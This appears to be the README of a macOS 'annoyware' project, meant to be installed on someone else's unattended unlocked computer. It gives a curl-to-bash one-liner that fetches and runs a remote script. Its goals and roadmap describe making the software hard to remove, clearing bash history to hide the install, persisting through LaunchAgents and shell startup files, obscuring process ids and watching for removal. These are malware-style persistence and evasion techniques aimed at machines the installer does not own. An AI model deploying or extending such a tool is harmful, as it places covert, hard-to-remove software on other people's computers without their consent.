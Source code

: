 # annoy
Use this to annoy people

curl https://raw.githubusercontent.com/patrickriordan/annoy/master/monitor.sh | bash

# Goals

- Be able to run on an unattended unlocked computer with internet access quickly without usb drive
- Annoy the user of the computer so they will not leave their computer unlocked
- Walk the fine line of malware/annoyware

NOT GOALS
- Infect other computers not unlocked
- Be completely unremovable (just hard)
- Steal passwords or confidential information
- Prevent the user from using the computer while being annoyed by this ware

# Support
only works on mac os x

# Roadmap
- Shorter install command
- Remove traces of installation (i.e. clear bash history of this command)
- Create uninstall script to undo what's been done
- Install self into LaunchAgents
- Install self into bashrc vimrc
- Try to workaround all monitor processes being killed at once
- Make it harder to find the correct process ids (maybe fork and die?)
- Have monitor processes also monitor for installation removal
